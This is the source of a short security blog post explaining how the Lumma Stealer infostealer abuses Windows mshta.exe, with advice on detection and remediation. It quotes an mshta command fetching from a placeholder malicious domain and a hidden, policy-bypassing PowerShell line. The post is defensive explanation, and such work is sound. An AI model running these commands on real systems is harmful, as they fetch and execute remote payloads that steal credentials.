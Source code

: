 ```yaml
---
author: "Wren Howell"
title: "Lumma's Living off the Land by MSHTA"
date: 2025-04-14
description: "Living off the Land Using MSHTA"
tags: ["Living off the Land , Windows"]
thumbnail: https://frsecure.com/wp-content/uploads/2021/08/Living-Off-the-Land-Attacks.jpg
---
```


As EDR and endpoint detections evolve, so do the tactics of threat actors. Rather than relying on attacker tools that are easily flagged by security systems, adversaries are increasingly leveraging living-off-the-land techniques—abusing legitimate tools and processes already present in the environment to execute malicious activity.

One example is Lumma Stealer, a type of information stealer often associated with Russian threat actors. Lumma Stealer is known for its simplicity and effectiveness, utilizing built-in Windows binaries like mshta.exe to evade detection.

**What is mshta.exe?** 

Mshta.exe is a native Windows utility designed to execute Microsoft HTML Applications (HTA). HTAs are essentially HTML files combined with scripting languages such as VBScript or JavaScript, and they execute with the same privileges as the user. Threat actors like Lumma Stealers commonly exploit mshta.exe by passing malicious arguments that spawn PowerShell commands. For example, Lumma Stealer might use a command like:

```bash
mshta.exe https://malicious_domain
```

This would be followed by an obfuscated PowerShell script designed to retrieve additional payloads or commands from the attacker's controlled infrastructure.
```bash
powershell.exe -w -h -ep Unrestricted -nop function [a bunch of hex]
```

**Detection**

A potential detection opportunity would be to check when mshta.exe spawns a child process such as PowerShell or cmd.exe, especially when the PowerShell command line is unusually long or obfuscated. This is a good indicator of potentially malicious behavior.　

**Remediation**

Since Lumma Stealer is a type info stealer, remediation steps include:
- Resetting credentials for the affected user(s)
- Blocking the malicious domain(s) used in the attack
- Deleting the phishing email or url responsible for the initial infection

For a more comprehensive defense, consider implementing Windows Defender Application Control (WDAC) policies to block all HTA file execution. This mitigates an entire class of attacks that abuse mshta.exe.

Resources 

- https://blackpointcyber.com/blog/the-rise-of-fake-captcha-attacks/

- https://www.netskope.com/blog/lumma-stealer-fake-captchas-new-techniques-to-evade-detection

- https://www.cybereason.com/blog/threat-analysis-rise-of-lummastealer

{{< css.inline >}}

<style>
.emojify {
	font-family: Apple Color Emoji, Segoe UI Emoji, NotoColorEmoji, Segoe UI Symbol, Android Emoji, EmojiSymbols;
	font-size: 2rem;
	vertical-align: middle;
}
@media screen and (max-width:650px) {
  .nowrap {
    display: block;
    margin: 25px 0;
  }
}
</style>

{{< /css.inline >}}
